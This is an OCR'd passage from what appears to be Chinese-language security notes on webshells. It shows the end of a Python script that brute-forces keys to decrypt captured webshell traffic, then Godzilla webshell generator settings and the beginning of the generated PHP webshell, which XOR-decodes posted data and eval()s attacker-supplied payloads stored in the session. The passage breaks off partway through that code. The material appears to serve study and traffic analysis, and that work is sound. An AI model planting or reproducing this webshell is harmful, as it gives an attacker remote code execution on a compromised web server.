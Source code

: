 ```python
    return res  
  
def md5_truncate(key):  
    return hashlib.md5(key.encode()).hexdigest()[:16]  
  
if __name__ == '__main__':  
    data = '''  
	<BASE64_ENCRYPTED_DATA_HERE>  
   '''    with open('keys.txt','r',encoding='utf-8') as f:  
        keys = f.readlines()  
  
    for key in keys:  
        key = key.strip()  
        c2_key = md5_truncate(key)  
        print('[CURRENT KEY]\t{} {}'.format(key,c2_key))  
        try:  
            data_b64_decode = base64.b64decode(data.strip())  
            data_aes_decode = aes_decode(data_b64_decode, c2_key)  
            if data_aes_decode:  
                print('[Ooooops, We found it!]')  
                print(data_aes_decode)  
                break  
        except:  
            pass
```
### Godzilla 哥斯拉

#### 基础代码

- 生成php的webshell代码：管理→生成

```
密码：pass				
密钥：key 				# md5：3c6e0b8a9c15224a8228b9a98ca1531d
有效载荷：PhpDynamicPayload
加密器：PHP_XOR_BASE64
```

```php
# gozilla.php

<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='pass';
$payloadName='payload';
$key='3c6e0b8a9c15224a';   # key的md5前16位
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo substr(md5($pass.$key),0,16);
```